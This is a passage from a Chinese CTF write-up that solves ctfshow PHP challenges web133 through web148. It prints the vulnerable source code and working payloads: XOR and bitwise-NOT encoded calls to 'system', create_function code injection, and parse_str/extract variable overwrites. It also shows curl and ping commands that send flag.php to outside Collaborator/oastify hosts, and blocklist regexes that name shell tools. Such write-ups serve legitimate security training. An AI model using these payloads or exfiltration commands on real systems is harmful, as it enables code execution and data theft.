然后执行 eval("`$F `;");
因此执行的就是$F中的内容，而其中的 $F 原本是我们传入的内容
所以执行的是 eval("``$F `;+curl -X`"); 也就会执行 curl -X。
```

然后我们介绍一下curl

```text
curl 命令：通过 curl 发起一个 HTTP POST 请求，将 flag.php 文件内容作为表单字段 xx 的值发送到攻击者的服务器。
#其中-F 为带文件的形式发送post请求
#xx是上传文件的name值，flag.php就是上传的文件 
```

而我们所弄的接收的服务器就是来自，burp Collaborator所创建的。原理就是将flag.php上传到bp的Collaborator Client.获得flag

### web134

```text
<?php
highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;
if(isset($_GET['key1']) || isset($_GET['key2']) || isset($_POST['key1']) || isset($_POST['key2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($key1 ** '36d' && $key2 ** '36d') {
    die(file_get_contents('flag.php'));
}
```

先介绍一下新朋友`extract`

```text
extract() — 从数组中将变量导入到当前的符号表
#本题的意思就是把_POST数组的变量导入当前符号表
```

然后说一下老朋友的新姿态`@parse_str($_SERVER['QUERY_STRING']);`

```text
'QUERY_STRING'query string（查询字符串），如果有的话，通过它进行页面访问。 
```

那么我们可以本地测试一下与他们多了解了解

```text
<?php
parse_str($_SERVER['QUERY_STRING']);
var_dump($_POST);?>
我们传入 _POST[‘a’]=123
会发现输出的结果为array(1) { ["‘a’"]=> string(3) “123” }
也就是说现在的$_POST[‘a’]存在并且值为123
题目中还有个extract($_POST)
extract() 函数从数组中将变量导入到当前的符号表,也就是说把键名当作变量名，值作为变量的值
这样的话 $a==123
```

就是说如果我们用POST数组传入key1与key2，我们也能控制住他们的值

```text
payload：/?_POST[key1]=36d&_POST[key2]=36d
```

### web135

```text
<?php
error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|bash|sh|netcat|curl|cat|grep|tac|more|od|sort|tail|less|base64|rev|cut|od|strings|tailf|head/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("师傅们居然破解了前面的，那就来一个加强版吧");
    }
}
```

诶，curl命令被ban了，看看hint，居然还可以用ping命令

可以使用ping命令带出flag

```text
`$F`;+ping `cat flag.php|awk 'NR==2'`.ne5d4a4evxtcv1tw5oy2rilax13srnfc.oastify.com
//需要一行一行查询
//awk 'NR==2' 筛选出文件的第二行
```

还有另一种做法，就是把flag.php写入到别的文件(光被名字web133plus带偏了，完全没想到可以这样做

```text
/?F='$F'+;cp+flag.php+1.txt   //但是本质还是有关于'$F'+;的这个骚姿势
```

### web136

```text
<?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?>
```

纯纯涨知识的题目，linux中还可以用tee写文件，Tee是Linux，用于显示程序的输出并将其复制到一个文件中。

```text
payload:/?c=ls /|tee 1   #然后访问1下载得到f149_15_h3r3
/?c=cat /f149_15_h3r3|tee 2   同样下载获得flag
```

### web137

```text
<?php
error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}

call_user_func($_POST['ctfshow']);
```

```text
call_user_func() — 把第一个参数作为回调函数调用,就是当作函数调用了
```

```text
payload：ctfshow=ctfshow:getFlag
/*ctfshow 是一个类（Class）。
getFlag 是这个类中的一个静态方法（Static Method）或常量（Constant）。
:: 的作用是告诉程序：“我要访问 ctfshow 类中的 getFlag 方法/常量”。*/
在编程中，双冒号 :: 是 作用域解析操作符（Scope Resolution Operator），常见于面向对象编程语言（如 PHP、C++ 等）。它的作用是明确访问某个类（或命名空间）中的 静态成员（方法或属性） 或 常量。
```

### web138

```text
<?php
error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}

if(strripos($_POST['ctfshow'], ":")>-1){
    die("private function");
}

call_user_func($_POST['ctfshow']);
```

数组也能调用类

```text
payload:ctfshow[]=ctfshow&ctfshow[]=getFlag
```

### web140

```text
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['f1']) && isset($_POST['f2'])){
    $f1 = (String)$_POST['f1'];
    $f2 = (String)$_POST['f2'];
    if(preg_match('/^[a-z0-9]+$/', $f1)){
        if(preg_match('/^[a-z0-9]+$/', $f2)){
            $code = eval("return $f1($f2());");
            if(intval($code) == 'ctfshow'){
                echo file_get_contents("flag.php");
            }
        }
    }
}
```

f1与f2都只能是数字，然后进行的是一个函数调用的返回值`return f1(f2());`

我们要让`intval($code) ** 'ctfshow'`成立，众所周知，弱比较字母可以恒比为0，`intval($code) ** 0`

```text
f1=system&f2=phpinfo   #这个有反应，找半天发现flag在源码
f1=system&f2=system    #布尔值 false
```

### web141



先测试呗，v1，v2只能是数字和数字符号，v3只能是非单词符号

然后可恶，不会了，这里的hint是取反绕过



```text
payload:v1=12&v2=2&v3=-(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%93%9E%98%D1%8F%97%8F)-
#测试了后发现前后都得是符号才行
```

### web142

```text
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['v1'])){
    $v1 = (String)$_GET['v1'];
    if(is_numeric($v1)){
        $d = (int)($v1 * 0x36d * 0x36d * 0x36d * 0x36d * 0x36d);
        sleep($d);
        echo file_get_contents("flag.php");
    }
}
```

```text
sleep() — 延缓执行
```

延时$d秒出flag，咱们肯定是越快越好，直接0起手，发现过了

```text
payload:v1=0
```

### web143

```text
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-18 12:48:14

*/

highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\+|\-|\.|_|\||\$|\{|\}|~|\%|\&|\;/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

```text
在 web141 的基础上新增过滤加减、取反、或，我们可以使用乘除号代替加减号，取反、或不能使用我们还可以采用异或运算构造 payload。
```

```text
payload：?v1=1&v2=1&v3=*("%0c%06%0c%0b%05%0d"^"%7f%7f%7f%7f%60%60")("%0c%0c"^"%60%7f")*
```

```text
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-18 16:21:15

*/

highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

    if(is_numeric($v1) && check($v3)){
        if(preg_match('/^\W+$/', $v2)){
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}

function check($str){
    return strlen($str)===1?true:false;
}
```

```text
交换了一下v2和v3的位置，v2不能是字母、数字、下划线的字符，我们交换一下位置即可
payload:?v1=1&v3=-&v2=("%0c%06%0c%0b%05%0d"^"%7f%7f%7f%7f%60%60")("%0b%01%03%00%06%0c%01%07%01%0f%08%0f"^"%7f%60%60%20%60%60%60%60%2f%7f%60%7f")
```

### web145

```text
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-18 17:41:33

*/

highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\@|\!|\+|\-|\.|_|\$|\}|\%|\&|\;|\<|\>|*|\/|\^|\#|\"/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

```text
对v3的过滤多了^，那我们不能异或了，我们还有取反绕过
?v1=1&v2=1&v3=|(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%93%9E%98%D1%8F%97%8F)|  #或
?v1=1&v2=1&v3=?(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%93%9E%98%D1%8F%97%8F):  #三元运算符
```

### web146

```text
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-18 17:41:33

*/

highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\@|\!|\:|\+|\-|\.|_|\$|\}|\%|\&|\;|\<|\>|*|\/|\^|\#|\"/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

```text
过滤了: 那我们试试或
?v1=1&v2=1&v3=|(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%93%9E%98%D1%8F%97%8F)|
```

### web147

```text
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-19 02:04:38

*/

highlight_file(__FILE__);

if(isset($_POST['ctf'])){
    $ctfshow = $_POST['ctf'];
    if(!preg_match('/^[a-z0-9_]*$/isD',$ctfshow)) {
        $ctfshow('',$_GET['show']);
    }

}
```

先看看代码

```text
^：匹配字符串的开头。
$：匹配字符串的结尾，确保整个字符串符合规则。
[a-z0-9_]：表示允许小写字母、数字和下划线。
*：匹配零个或多个前面的字符。
/i：忽略大小写。
s：匹配包括换行符在内的所有字符。
D（PCRE 特有）：美元符号 $ 仅匹配字符串的实际末尾，不匹配结尾的换行符。

让$ctfshow中有其他字符就可以构造了
```

```text
这里我们用的是creat_function()这个函数
```

```text
$func = create_function('$a', 'echo $a."123";');
$func('Hello'); // 输出 Hello123
#其中 $a 是参数，'echo $a."123";' 是函数体，但在7.2以后就被弃用了

等价于
function f($a) {
  echo $a . "123";
}
f('Hello'); // 输出 Hello123
```

```text
#那如果我们输入这个
}system('ls');//
#等价于
function f($a) {
  }system('ls');//}
可以以此来执行命令

那我们如何调用creat_fuction呢？
在 PHP 中，命名空间（namespace）提供了一种组织代码的方式，可以避免类、函数和常量名称的冲突。默认情况下，PHP 的函数和类都在全局命名空间 \ 中。全局命名空间中的函数和类：在任何命名空间中调用全局函数和类时，需要使用绝对路径（以 \ 开头）。 自定义命名空间中的函数和类：在同一命名空间中调用时，可以直接使用名称；在其他命名空间中调用时，需要使用完整的命名空间路径。

就是说我们/creat_fuction就可以调用了
所以我们的payload:
?show=}system('ls');//
ctf=\create_function             #双斜杠也可以用/*代替
```

### web148

```text
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-19 03:52:11

*/

include 'flag.php';
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if(preg_match("/[A-Za-z0-9_\%\\|~\'\,\.\:\@\&*\+\- ]+/",$code)){
        die("error");
    }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}

function get_ctfshow_fl0g(){
    echo file_get_contents("flag.php");
}
```

```text
异或秒了（记得;闭合）
?code=("%08%02%08%09%05%0d"^"%7b%7b%7b%7d%60%60")("%03%01%09%01%06%0c%01%07%01%0b%08%0b"^"%60%60%7d%21%60%60%60%60%2f%7b%60%7b");

预期解是使用中文 
?code=$哈="{{{"^"?<>/";${$哈}[哼](${$哈}[嗯]);&哼=system&嗯=tac f* 
"{{{"^"?<>/"; 异或出来的结果是 _GET
```
